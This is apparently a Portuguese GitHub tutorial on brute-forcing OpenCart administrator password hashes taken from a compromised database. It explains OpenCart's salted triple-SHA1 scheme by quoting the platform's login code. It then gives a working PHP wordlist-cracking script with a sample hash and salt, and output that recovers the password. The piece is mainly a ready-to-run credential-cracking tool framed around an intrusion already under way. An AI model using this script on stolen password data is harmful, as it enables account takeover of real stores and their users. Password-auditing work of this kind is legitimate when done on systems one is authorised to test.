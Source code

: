 # Brute force attack in OpenCart stored passwords.
Nesse pequeno tutorial eu ensino como realizar um ataque de força bruta baseado em lista de palavras em senhas armazenadas em bancos de dados OpenCart


## CENÁRIO:
- Você conseguiu acesso ao banco de dados de uma determinada aplicação que usa OpenCart.
- Você consulta a Hash e o Salt da senha na tabela do administrator e obtém o seguinte resultado:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEMA:
Você não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa `hash` com força bruta comum usando criptografia SHA1.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "SENHA: ".$string;} else{}
}
?>
```


O problema é que `$password` (A senha do admin) não é simplesmente uma string criptografada com SHA1.
Logo um script de força bruta baseada nesse tipo de criptografia dificilmente geraria uma `hash` igual a senha criptografada do admin que você quer "desvendar".

## SOLUÇÃO:

SE OLHARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

ENCONTRAMOS O SEGUINTE CÓDIGO:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTANDO O CÓDIGO TEMOS:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

## Agora já sabemos como devemos criptografar as strings da nossa wordlist para comparar com a `hash` encontrada na tabela do administrador.

Um script simples em php para testar força bruta em senhas OpenCart ficaria assim:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "SENHA: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
SENHA: 12345
```

###### _NEED ME? [pablov3rlly gmail com]_
